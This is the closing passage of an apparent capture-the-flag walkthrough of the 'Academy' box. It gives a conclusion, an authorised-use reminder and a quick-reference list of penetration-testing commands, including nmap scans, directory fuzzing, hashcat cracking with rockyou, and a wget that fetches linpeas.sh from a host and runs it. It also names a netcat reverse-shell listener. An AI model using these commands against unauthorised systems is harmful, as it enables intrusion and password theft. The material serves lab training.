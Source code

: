 
## Conclusion

This walkthrough demonstrated a complete penetration testing workflow, from initial enumeration through privilege escalation to ultimately achieving root access. The Academy box provided excellent practice in:
- Service enumeration
- Password cracking
- Web application security
- File upload vulnerabilities
- Linux privilege escalation techniques

Remember that the techniques demonstrated here should only be used in authorized testing environments. Always ensure you have proper permission before attempting any security testing.

### Quick Reference Commands

```bash
# Initial Enumeration
nmap -p- -A -T4 <IP>
dirb http://<IP>
ffuf -w /path/to/wordlist:FUZZ -u http://<IP>/FUZZ

# Hash Cracking
hash-identifier
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt

# Privilege Escalation
wget http://<IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## Tools Used
- nmap: Network scanning
- dirb/ffuf: Directory enumeration
- hashcat: Password cracking
- netcat: Reverse shell listener
- LINPEAS: Privilege escalation enumeration
- pspy: Process monitoring

Happy Hacking!

- Nisha